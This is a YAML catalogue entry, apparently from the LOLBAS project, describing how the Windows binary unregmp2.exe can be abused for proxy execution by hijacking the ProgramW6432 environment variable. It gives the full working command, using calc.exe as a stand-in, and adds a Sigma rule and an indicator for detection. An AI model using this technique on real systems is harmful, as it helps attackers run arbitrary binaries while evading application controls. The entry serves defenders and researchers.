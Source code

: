 ```yaml
---
Name: Unregmp2.exe
Description: Microsoft Windows Media Player Setup Utility
Author: 'Wade Hickey'
Created: 2021-12-06
Commands:
  - Command: rmdir %temp%\lolbin /s /q 2>nul & mkdir "%temp%\lolbin\Windows Media Player" & copy C:\Windows\System32\calc.exe "%temp%\lolbin\Windows Media Player\wmpnscfg.exe" >nul && cmd /V /C "set "ProgramW6432=%temp%\lolbin" && unregmp2.exe /HideWMP"
    Description: Allows an attacker to copy a target binary to a controlled directory and modify the 'ProgramW6432' environment variable to point to that controlled directory, then execute 'unregmp2.exe' with argument '/HideWMP' which will spawn a process at the hijacked path '%ProgramW6432%\wmpnscfg.exe'.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: EXE
Full_Path:
  - Path: C:\Windows\System32\unregmp2.exe
  - Path: C:\Windows\SysWOW64\unregmp2.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/197615345b927682ab7ad7fa3c5f5bb2ed911eed/rules/windows/process_creation/proc_creation_win_lolbin_unregmp2.yml
  - IOC: Low-prevalence binaries, with filename 'wmpnscfg.exe', spawned as child-processes of `unregmp2.exe /HideWMP`
Resources:
  - Link: https://twitter.com/notwhickey/status/1466588365336293385
Acknowledgement:
  - Person: Wade Hickey
    Handle: '@notwhickey'
---
```


